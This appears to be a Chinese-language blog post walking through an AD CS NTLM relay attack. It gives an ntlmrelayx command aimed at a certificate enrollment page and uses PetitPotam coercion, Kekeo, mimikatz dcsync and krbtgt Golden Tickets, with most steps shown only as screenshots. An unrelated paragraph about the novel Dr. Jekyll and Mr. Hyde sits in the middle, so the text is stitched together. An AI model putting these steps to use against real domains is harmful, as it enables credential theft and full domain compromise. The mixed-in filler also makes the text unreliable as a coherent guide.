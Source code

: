 ```yaml
---
layout: post
title: AD CS relay Attack
---
```


*The Strange Case of Dr. Jekyll and Mr. Hyde* tells the story of a lawyer investigating the connection of two persons, Dr. Henry Jekyll and Mr. Edward Hyde. Chief among the novel's supporting cast is a man by the name of Mr. Poole, Dr. Jekyll's loyal butler.

-----

## **ADCS 核心原理**

证书服务发布的部分证书可用于kerberos认证，并且在返回的PAC里面能拿到NTLM hash。

AD CS（Active Directory 证书服务）特别有趣，因为它提供默认接受基于 NTLM 的身份验证的角色服务。这些服务具体包括**证书颁发机构 Web 注册**和**证书注册 Web 服务**。

**注:要完成本次攻击域必须安装ADCS服务，且证书注册的web页面不能开启https。**

攻击机器上

```python
python3 ntlmrelayx.py -debug -smb2support --target http://172.23.119.119/certsrv/certfnsh.asp --adcs --template KerberosAuthentication
```

![image-20210813111552386](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210813111552386.png)

内网一台已经有的据点或者攻击机也可以PetitPotam.exe 10.0.0.5 dc01，120连接的是辅域，打回辅域DC02的net-ntlm

![image-20210813111357522](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210813111357522.png)

![image-20210813111704436](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210813111704436.png)

keko利用

![image-20210813115049121](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210813115049121.png)

![image-20210813115314598](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210813115314598.png)

然后mimikatz dcsync即可

![image-20210813115227928](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210813115227928.png)

拥有 NTLM 哈希允许我们创建`krbtgt`[Kerberos Golden Tickets]()。



